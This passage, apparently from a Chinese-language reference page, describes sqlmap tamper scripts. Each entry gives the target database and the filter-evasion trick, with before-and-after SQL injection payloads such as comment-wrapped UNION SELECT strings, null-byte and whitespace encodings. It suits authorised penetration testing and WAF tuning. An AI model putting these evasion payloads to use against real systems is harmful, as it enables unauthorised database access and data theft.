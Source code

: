 适用数据库：MySQL、MSSQL
作用：将空格替换为 `--` ，并追随一个换行符
使用脚本前：`tamper('1 AND 9227=9227')`
使用脚本后：`1--%0AAND--%0A9227=9227`

#### **bluecoat.py**

适用数据库：Blue Coat SGOS
测试通过数据库：MySQL 5.1,、SGOS
作用：在sql语句之后用有效的随机空白字符替换空格符，随后用`LIKE`替换`=`
使用脚本前：`tamper('SELECT id FROM users where id = 1')`
使用脚本后：`SELECT%09id FROM users where id LIKE 1`

#### **versionedkeywords.py**

适用数据库：MySQL
测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11
作用：注释绕过
使用脚本前：`tamper('1 UNION ALL SELECT NULL, NULL, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,100,114,117,58))#')`
使用脚本后：`1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/, CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#`

#### **halfversionedmorekeywords.py**

适用数据库：MySQL < 5.1
测试通过数据库：MySQL 4.0.18/5.0.22
作用：在每个关键字前添加mysql版本注释
使用脚本前：`tamper("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")`
使用脚本后：`value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa`

#### **space2morehash.py**

适用数据库：MySQL >= 5.1.13
测试通过数据库：MySQL 5.1.41
作用：将空格替换为`#`，并添加一个随机字符串和换行符
使用脚本前：`tamper('1 AND 9227=9227')`
使用脚本后：`1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227`

#### **apostrophenullencode.py**

适用数据库：ALL
作用：用非法双字节Unicode字符替换单引号
使用脚本前：`tamper("1 AND '1'='1")`
使用脚本后：`1 AND %00%271%00%27=%00%271`

#### **appendnullbyte.py**

适用数据库：ALL
作用：在有效载荷的结束位置加载null字节字符编码
使用脚本前：`tamper('1 AND 1=1')`
使用脚本后：`1 AND 1=1%00`
